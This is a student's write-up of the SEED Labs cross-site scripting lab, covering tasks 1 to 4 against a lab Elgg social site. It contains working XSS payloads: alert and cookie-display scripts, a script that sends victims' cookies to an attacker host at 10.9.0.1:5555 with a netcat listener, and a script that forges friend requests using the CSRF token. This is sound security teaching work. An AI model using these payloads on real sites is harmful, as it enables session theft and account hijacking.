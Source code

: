 # Cross-Site Scripting Attack Lab

For `Mac` with an Apple M-series chip

**VMware Fusion:** [VMware Fusion 13 Pro 13.5.2](https://customerconnect.vmware.com/en/evalcenter?p=fusion-player-personal-13) or [From my drive](https://drive.google.com/file/d/1r93EjCoikbehD6aaPDMhJCsoqPh11t2t/view?usp=sharing)

**VM version:** [SEED Ubuntu-20.04 VM](https://seedsecuritylabs.org/labsetup.html) or [From my drive](https://drive.google.com/file/d/1IPzOHrPnvwh5saghyQwFgCjSAsM2ZfZZ/view?usp=drive_link)

# Tasks 

## Tasks 1 : Posting a Malicious Message to Display an Alert Window

In this task, we have to do an XSS attack by injecting a JavaScript snippet into the "Brief description" field. 

This JavaScript code will be executed whenever someone views our profile : 

```
<script>alert('XSS');</script>
```

- Profile Edit with Script Injection:

[![](images/img_xss_attack_task_1_1.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_1_1.png)

- Alert Box Triggered:

[![](images/img_xss_attack_task_1_2.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_1_2.png)

When the victim (`Alice`) visits the attacker(`Samy`)'s profile, the injected script executes and displaying an alert box.

## Tasks 2 :  Posting a Malicious Message to Display Cookies

In this task, we have to do an XSS attack by injecting a JavaScript snippet into the "Brief description" field. It will displays the cookies of the user viewing the profile.

This JavaScript code will be executed whenever someone views our profile : 

```
<script>alert(document.cookie);</script>
```

- Profile Edit with Script Injection:

[![](images/img_xss_attack_task_2_1.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_2_1.png)

- Alert Box Displaying Cookies:

[![](images/img_xss_attack_task_2_2.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_2_2.png)

Every time someone views `Samy` profile, the injected Javascript code will be executed.

## Tasks 3 : Stealing Cookies from the Victim’s Machine

In the previous task, the `victim` could only see their own browser's cookies. In this task, the `attacker` aims to capture the `victim’s cookies` by sending them to the `attacker's machine`.

Injected Script:

```
<script>
    document.write('<img src="http://10.9.0.1:5555?cookie=' + escape(document.cookie) + '">');
</script>
```

Go to the Edit Profile page and insert this script into the "Brief description" field.

- Profile Edit with Injected Script:

[![](images/img_xss_attack_task_3_1.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_3_1.png)

Start a Netcat listener to receive the cookies:

```
nc -lknv 5555
```

- Attacker’s Server Listening for Connections:

[![](images/img_xss_attack_task_3_2.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_3_2.png)

When the victim visits the attacker’s profile, their cookies are sent to the attacker’s Netcat listener.

- Victim(`Alice`) Views the Profile:

[![](images/img_xss_attack_task_3_3.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_3_3.png)

- Captured Cookies on Attacker’s Server:

[![](images/img_xss_attack_task_3_4.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_3_4.png)

## Tasks 4 : Becoming the Victim’s Friend

In this task, the attacker (`Samy`) aims to create an `XSS worm` that automatically adds `Samy` as a friend for any user who visits `Samy`'s profile.

In order to find how to write this request, inspect the "Add Friend" button on another user's page.

- Inspect Add Friend Button

[![](images/img_xss_attack_task_4_1.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_1.png)

This reveals the URL and parameters used for the friend request:

```
http://www.seed-server.com/action/friends/add?friend=59&amp;__elgg_ts=1732271486&amp;__elgg_token=WXDfFi0ucQTatfxYj3TOSQ
```

Go to the Members page and inspect the HTML elements. We could find Samy's ID by inspecting the "Members" page. 

- Inspect Members Page

[![](images/img_xss_attack_task_4_2.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_2.png)

Samy's user ID is `59`.

With this information, we can create a request that will add Samy as a friend when executed in a script on other users' browsers. 

```
<script type="text/javascript">
window.onload = function() {
    // Get the CSRF token and timestamp
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    // Construct the URL to add Samy as a friend
    var friend_id = "59"; // Replace 59 with Samy’s user ID
    var sendurl = "http://www.seed-server.com/action/friends/add?friend=" + friend_id + ts + token;

    // Send the HTTP request
    var Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
};
</script>
```

Log in as Samy and edit the "About Me" of the profile. 

- Script Injection in Profile

[![](images/img_xss_attack_task_4_3.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_3.png)

- Before visiting Samy's profile:

[![](images/img_xss_attack_task_4_4.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_4.png)

- Visiting Samy's profile:

[![](images/img_xss_attack_task_4_5.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_5.png)

After visiting Samy's profile:

[![](images/img_xss_attack_task_4_6.png)](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_6.png)

## Tasks 5

## Tasks 6

## Tasks 7